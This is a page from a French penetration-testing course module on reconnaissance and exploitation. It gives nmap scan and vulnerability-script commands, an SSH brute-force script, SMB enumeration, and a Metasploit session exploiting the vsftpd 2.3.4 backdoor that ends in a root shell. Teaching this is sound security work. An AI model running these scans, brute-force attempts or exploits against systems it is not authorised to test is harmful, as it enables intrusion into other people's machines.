

repository: VBlackJack/ShellBook · page: formations/hacking-mastery/02-module/index.html · generator: mkdocs

---
tags:
  - hacking
  - nmap
  - recon
  - scanning
  - formation
---

# Module 2 : Reconnaissance & Réseau

"Si je disposais de huit heures pour abattre un arbre, j'en consacrerais six à affûter ma hache." (Lincoln). En hacking, c'est pareil : 80% de reconnaissance, 20% d'attaque.

**Durée estimée :** 30 minutes

## 1. Reconnaissance Active : Nmap

**Nmap** est le roi du scan réseau. Il répond à 3 questions :
1.  Quelles machines sont actives ? (Host Discovery)
2.  Quels ports sont ouverts ? (Port Scanning)
3.  Quels services tournent dessus ? (Service Enumeration)

### Scans Essentiels

```bash
# Scan rapide (Top 1000 ports)
nmap 192.168.1.10

# Scan complet (Tous les ports 0-65535)
nmap -p- 192.168.1.10

# Scan de services et versions (-sV) + OS (-O)
nmap -sV -O 192.168.1.10

# Le scan "Agressif" (Scripts par défaut, versions, OS)
nmap -A 192.168.1.10
```

### NSE (Nmap Scripting Engine)
Nmap peut aussi détecter des vulnérabilités.

```bash
# Chercher des vulnérabilités connues
nmap --script vuln 192.168.1.10

# Bruteforce SSH (Attention, bruyant !)
nmap -p 22 --script ssh-brute 192.168.1.10
```

## 2. Énumération de Services

Une fois un port ouvert trouvé, il faut lui parler.

### Netcat (Le couteau suisse)
```bash
# Connexion simple (Banner grabbing)
nc -nv 192.168.1.10 80
```

### SMB (Samba / Windows Share)
Souvent une mine d'or.
```bash
# Lister les partages
smbclient -L //192.168.1.10 -N

# Enumérer les utilisateurs (Linux)
enum4linux -a 192.168.1.10
```

## 3. Exploitation avec Metasploit

**Metasploit Framework (MSF)** est une immense base de données d'exploits.

### Workflow MSF
1.  **Search** : Trouver l'exploit.
2.  **Use** : Sélectionner l'exploit.
3.  **Set** : Configurer la cible (RHOSTS) et le Payload (Reverse Shell).
4.  **Exploit** : Feu !

### Exemple : Attaque vsftpd 2.3.4 (Backdoor connue)

```bash
msfconsole

# Dans la console msf :
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 192.168.1.10
msf6 > set RPORT 21
msf6 > check
# [+] The target is vulnerable.

msf6 > exploit
# Shell session 1 opened...
# whoami
# root
```

> **Attention** : Metasploit est "bruyant" (détecté par tous les antivirus). Les pros codent souvent leurs propres scripts ou utilisent des outils plus discrets.

---
